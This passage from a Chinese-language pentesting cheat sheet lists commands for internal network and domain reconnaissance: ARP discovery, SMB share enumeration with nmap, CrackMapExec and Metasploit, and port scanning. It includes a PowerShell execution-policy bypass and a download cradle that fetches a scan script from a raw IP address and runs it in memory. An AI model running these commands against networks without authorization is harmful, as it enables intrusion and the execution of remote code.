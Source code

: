    ```bash
   netdiscover -r 10.10.10.0/24 -i eth1
   ```

4. powershell

   [脚本](https://gitee.com/yijingsec/empire-project/raw/master/data/module_source/situational_awareness/network/Invoke-ARPScan.ps1)

   ```bash
   powershell.exe -exec bypass -Command "Import-Module .\arpscan.ps1;InvokeARPScan -CIDR 192.168.1.0/24"
   ```

5. arp-scan

   [arp-scan(linux)](https://linux.die.net/man/1/arp-scan)

   [arp-scan(win)](https://github.com/QbsuranAlang/arp-scan-windows-/tree/main/arp-scan)

   ```bash
   # linux
   arp-scan -interface=eth1 --localnet
   
   # windows
   arp-scan.exe –t 10.10.10.0/24
   ```

### 5. SMB协议探测

1. nmap

   ```bash
   nmap ‐sU ‐sS ‐‐script smb‐enum‐shares.nse ‐p 445 192.168.1.119
   ```

2. Crackmapexec

   网络身份验证python工具

   ```bash
   # 默认为 100 线程
   crackmapexec smb 10.10.10.0/24
   ```

3. MSF

   ```bash
   use auxiliary/scanner/smb/smb_version
   ```

### 6. 域内端口探测

1. `MSF poortscan` 模块

2. `Nishang` 中的 [`Invoke-PortScan`](https://raw.githubusercontent.com/samratashok/nishang/c3fdf5e5dfa8612d0a17636dbb096b04e987ab31/Scan/Invoke-PortScan.ps1)

   ```powershell
   # 默认扫描常用端口，-Port 指定端口
   powershell iex(new-object net.webclient).downloadstring('http://47.104.255.11:8000/Invoke-PortScan.ps1');Invoke-PortScan -StartAddress 10.10.10.1 -EndAddress 10.10.10.255 -ResolveHost -ScanPort
   ```
